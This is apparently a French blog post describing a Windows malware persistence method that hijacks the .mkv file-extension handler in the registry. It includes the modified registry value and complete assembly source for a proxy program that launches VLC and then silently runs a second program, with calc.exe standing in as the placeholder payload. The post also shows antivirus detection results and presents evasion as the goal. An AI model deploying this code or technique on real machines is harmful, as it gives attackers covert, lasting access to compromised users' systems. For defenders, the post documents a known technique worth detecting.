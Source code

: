 
En ces jours de confinement (covid-19), j'ai pensé qu'une méthode de persistance pouvait être d'actualité :)

Je présente alors ici, une méthode de persistance peu connue, mais que je trouve très sympa. 

Une fois un poste compromis, il peut être utile de garder un accès sur le-dit poste afin de pouvoir revenir par la suite. On parle régulièrement de **backdoor**. La **backdoor** est un programme malveillant qui permet alors de garder le controle sur une machine compromise afin d'y revenir par la suite. Le code malveillant utilisée comme backdoor ne sera pas traité ici.

Il existe de très nombreuses méthodes de persistance, je présente ici une méthode qui utilise les extensions de fichiers (.txt, .py, .mkv, .html, ...). Ainsi lorsque l'utilisateur légitime de la machine cliquera sur une icône, elle enclenchera l'exécution de la backdoor ! Je trouve ça simplement génial !

J'ai découvert cette méthode grâce à __Hasherezade__ en 2017. Et cherchant un sujet pour cet article, je me suis souvenu du POC (Proof Of Concept) que j'avais effectué à l'époque. J'en ai alors profité pour constater que cette méthode est toujours d'actualité (windows 10 1909). Pour consulter l'article d'__Hasherezad__: https://hshrzd.wordpress.com/2017/05/25/hijacking-extensions-handlers-as-a-malware-persistence-method/

La gestion des extensions est effectuée via la base de registres que l'on peut visionner grâce à __regedit.exe__. Pour voir quel programme exécute telle extension, il faut regarder dans la clef de registre:

* HKEY_USERS\S-number-...-number_Classes\.monExtension

J'ai quelques fichiers __.mkv__ qui trainent sur mon bureau, je vais donc **hijacker** l'extension __.mkv__ afin d'exécuter mon programme malveillant, mais également __VLC__ (outils qui lit par défaut mes fichiers .mkv). Ainsi l'utilisateur n'y verra que du feu.

La clef de registre qui gère l'extension __.mkv__ est présentée ci-dessous: 

![image alt text](/images/persistance/mkv.png)

On voit que le handler qui gère cette extension pointe vers __VLC.mkv__, qu'il faut alors retrouver dans la base de registres. Une rapide recherche sur le terme __VLC.mkv__ nous indique qu'elle est contenue dans:

* HKEY_CLASSES_ROOT\VLC.mkv

On le voit bien sur la capture suivante:

![image alt text](/images/persistance/mkv_not_hijacked.png)

On y voit que la valeur de la clef vaut: 

* "C:\Program Files\VideoLAN\VLC\vlc.exe" --started-from-file "%1"

L'option __--started-from-file__ est spécifique à vlc, et non à la base de registre. Concernant le __%1__, il s'agit d'une valeur propre à la base de registre qui permet de récupérer le nom du fichier sur lequel a cliqué l'utilisateur légitime de la machine compromise.

Afin de compromettre la clef de registre, il va donc falloir modifier cette valeur de manière à exécuter l'action qu'elle effectue normalement (à savoir lancer VLC avec le fichier demandé par l'utilisateur), mais qui va en plus exécuter un autre code (malveillant de surcroît).

Il va donc y avoir une sorte de proxyfication d'extension, en se sens que l'on capture le fonctionnement normal de l'exécution du programme en charge de la-dite extension. 

La nouvelle valeur de la clef de registre sera donc:

* "C:\proxy_app.exe" "C:\Program Files\VideoLAN\VLC\vlc.exe" --started-from-file "%1"

On voit sur la capture d'écran suivante le résultat:

![image alt text](/images/persistance/mkv_hijacked.png)

Ici __proxy\_app.exe__ est le programme qui me permet de **hijacker** l'extension.

On comprend donc que le fait de cliquer sur une extension __.mkv__ n'exécutera pas __vlc.exe__ comme c'était le cas auparavant, mais exécutera __proxy\_app.exe__ (qui se chargera d'exécuter __vlc.exe__, entre autre ...). 

Le programme __proxy\_app.exe__ prendra donc des arguments qui seront: 

* "C:\Program Files\VideoLAN\VLC\vlc.exe"

* --started-from-file

* "%1"

Afin de gérer les arguments passé à un programme, je vais utiliser la fonction __GetCommandLineW()__ (kernel32.dll) qui permet de récupérer les arguments passés au programme et de les stocker au format unicode (type __LPCWSTR__). J'utilise ensuite la fonction __CommandLineToArgvW()__ (Shell32.dll) qui permet de compter le nombre d'arguments. Cette routine s'effectue comme suit:

```
GetCommandLineW PROTO STDCALL
CommandLineToArgvW PROTO STDCALL :DWORD, :DWORD

.data?
     Narg   	db 256 dup (?)

.code
     call 	GetCommandLineW

     push	offset Narg
     push 	eax
     call 	CommandLineToArgvW
```

Le résultat est présenté sur la capture ci-dessous:

![image alt text](/images/persistance/getcommandline.png)

On voit que la valeur dans __eax__ (retour de la fonction __CommandLineToArgvW()__) pointe vers l'adresse contenant les arguments. Mais pas que ...

En effet, la première adresse (__007A4350__) pointe vers l'adresse (__007A4364__) qui pointe vers le  premier argument. Si l'on ajoute __4__ bytes, on passe à l'adresse suivante __007A43BC__ qui pointe vers le second argument. Si l'on ajoute encore __4__ bytes, on passe à l'adresse suivante __007A4408__ qui pointe vers le troisième argument, et ainsi de suite.

N'oublions pas que tout ces "arguments" font en réalité partie d'une seule et même ligne de commande qui permet de lancer vlc comme il faut. Ainsi, il faut récupérer ces arguments, ajouter des espaces entre chaque afin de reconstituer une ligne de commande valide. Afin de concaténer les arguments entre eux et avec des espaces, je vais utiliser la fonction __lstrcatW()__ (kernel32.dll). La routine qui effectue cela est présentée ci-dessous:

```
lstrcatW PROTO STDCALL :DWORD, :DWORD

.data
     space          db " ",0

.data?
     args_concat    db 256 dup (?)

.code
     xor 	ecx, ecx
     mov 	ecx, 1 ; to not take into account the arg 0 which is the current program name
_concatenateArgs:
     add 	eax, 4 
     lea 	ebx, [Narg]
     mov 	ebx, [ebx]
     cmp 	ecx, ebx
     je 	_createOriginalProcess

     push 	eax
     push	ecx

_concat:

    push 	[eax]
    push 	offset args_concat
    call 	lstrcatW

_add_space:
     push 	offset space
     push 	offset args_concat
     call 	lstrcatW

     pop	ecx
     pop 	eax
     inc 	ecx
     jmp 	_concatenateArgs

_createOriginalProcess:
```

La seule "difficulté" réside dans le fait que le premier argument (0) est en fait le nom de programme qui s'exécute, à savoir __proxy\_app.exe__ , il ne faut donc pas le compter (c'est pourquoi je commence avec __ecx = 1__) et surtout pas le concatener avec les autres arguments.

Une fois que les arguments qui permettent d'avoir la ligne de commande qui exécute vlc ont été concaténés, il n'y a plus qu'à utiliser la fonction __CreateProcessW()__ pour exécuter cette ligne de commande et alors ouvrir vlc comme le souhaite l'utilisateur légitime. Il ne faut pas oublier ensuite d'exécuter notre code malveillant avec la fonction __CreateProcessA()__. Le code malveillant sera ici __calc.exe__.

<details><summary><font color="red">Ici se trouve le code permettant de **hijacker**  les extensions</font></summary>
<p>
```
.586
.model flat, stdcall


; kernel32.dll
GetLastError PROTO STDCALL
ExitProcess PROTO STDCALL :DWORD
lstrcatW PROTO STDCALL :DWORD, :DWORD
GetCommandLineW PROTO STDCALL 
CreateProcessA PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD
CreateProcessW PROTO STDCALL :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD, :DWORD

; shell32.dll
CommandLineToArgvW PROTO STDCALL :DWORD, :DWORD

; https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information
PROCESS_INFORMATION    struct 
	hProcess    	DWORD    ?
	hThread    		DWORD    ?
	dwProcessId    	DWORD    ?
	dwThreadId    	DWORD    ?
PROCESS_INFORMATION    ends

; https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
STARTUPINFOA    struct 
	cb    			DWORD    ?
	lpReserved    	DWORD    ?
	lpDesktop    	DWORD    ?
	lpTitle    		DWORD    ?
	dwX    			DWORD    ?
	dwY    			DWORD    ?
	dwXSize    		DWORD    ?
	dwYSize    		DWORD    ?
	dwXCountChars   DWORD    ?
	dwYCountChars   DWORD    ?
	dwFillAttribute DWORD    ?
	dwFlags    		DWORD    ?
	wShowWindow    	WORD    ?
	cbReserved2    	WORD    ?
	lpReserved2    	DWORD    ?
	hStdInput    	DWORD    ?
	hStdOutput    	DWORD    ?
	hStdError    	DWORD    ?
STARTUPINFOA    ends


.data
    malicious_path  db 'C:\WINDOWS\system32\calc.exe',0
    space           db " ",0
	
.data?
    startinfo       STARTUPINFOA         <>
    procinfo        PROCESS_INFORMATION <>
    args_concat     db 256 dup (?)
    Narg            db 256 dup (?)


.code

Start PROC

     call 	GetCommandLineW

     push 	offset Narg
     push 	eax
     call 	CommandLineToArgvW

     xor 	ecx, ecx
     mov 	ecx, 1 ; to not take into account the arg 0 which is the current program name
_concatenateArgs:
     add 	eax, 4 
     lea 	ebx, [Narg]
     mov 	ebx, [ebx]
     cmp 	ecx, ebx
     je 	_createOriginalProcess

     push 	eax
     push 	ecx

_concat:

     push 	[eax]
     push 	offset args_concat
     call 	lstrcatW

_add_space:
     push 	offset space
     push 	offset args_concat
     call 	lstrcatW

     pop 	ecx
     pop	eax
     inc 	ecx
     jmp 	_concatenateArgs

_createOriginalProcess:
; create first the process asked by the user
     push      offset procinfo
     push      offset startinfo 
     push      0 
     push      0
     push      8000008h ; DETACHED_PROCESS or CREATE_NO_WINDOW
     push      0
     push      0
     push      0 
     push      offset args_concat
     push      0
     call      CreateProcessW

_createMaliciousProcess:
; then create an other process mouhaha
     push      offset procinfo
     push      offset startinfo 
     push      0 
     push      0
     push      8000008h ; DETACHED_PROCESS or CREATE_NO_WINDOW
     push      0
     push      0
     push      0 
     push      0
     push      offset malicious_path
     call      CreateProcessA


_exit:
     xor     eax, eax
     push 	eax
     call 	ExitProcess

Start ENDP
END
```
</p>
</details>

Ainsi je lance d'abord l'exécution du code demandé par l'utilisateur légitime (à savoir vlc), puis l'exécution du code de l'utilisateur malveillant (à savoir calc.exe).

Cette méthode de persistence est sympa, mais nécessite de laisser 2 fichiers sur le système de fichiers de la machine infectée ... c'est moyen-moyen. Mais si le code n'est pas détecté par les antivirus, cela ne pose pas de problème, n'est-ce pas? Ci-dessous est présenté le résultat de l'analyse de  __proxy\_app.exe__ par __Virus Total__:

![image alt text](/images/persistance/vt.png)

Bon, il y a quelques detections (3/70) ... Est-ce important? Personellement, il n'y a que __Cylance__ qui me chagrine un peu.

Mais bon, si la backdoor est également quasi-indétectable, on peut être tranquille pour un moment.
